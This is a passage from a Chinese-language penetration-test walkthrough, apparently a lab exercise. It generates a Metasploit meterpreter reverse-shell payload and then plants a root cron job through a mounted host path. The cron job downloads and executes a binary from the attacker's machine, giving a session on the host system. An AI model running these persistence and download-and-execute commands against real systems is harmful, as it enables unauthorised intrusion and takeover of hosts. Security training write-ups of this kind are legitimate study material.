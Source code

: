 首先使用metasploit的web_delivery模块生成payload命令：

use exploit/multi/script/web_delivery set target 6    # 选择目标系统 set payload linux/x64/meterpreter/reverse_tcp set lhost 192.168.1.7 set lport 4444 exploit

![img](assets/1700555906294-e27623fe-e276-4d62-9fc9-1dc60d5922ee.jpeg)

如上图，只要将生成的命令再目标主机上执行，便可以得到目标主机的meterpreter。我们将该命令写入宿主机的计划任务中：

echo '* * * * * wget -qO KdwGEmVm --no-check-certificate http://192.168.1.7:8080/kvMOwncGb; chmod +x KdwGEmVm; ./KdwGEmVm& disown' >> /hack/var/spool/cron/crontabs/root

如下图，宿主机上线meterpreter：

![img](assets/1700555906497-45047cf9-b0f8-4667-b44b-e9e11d8c36c0.jpeg)

信息收集可得其系统版本为Ubuntu 14.04。

可怪事来了，我们查看了目标宿主机的网络配置后，仅发现了两个内网的网段“192.168.52.1/24”和“192.168.93.1/24”：
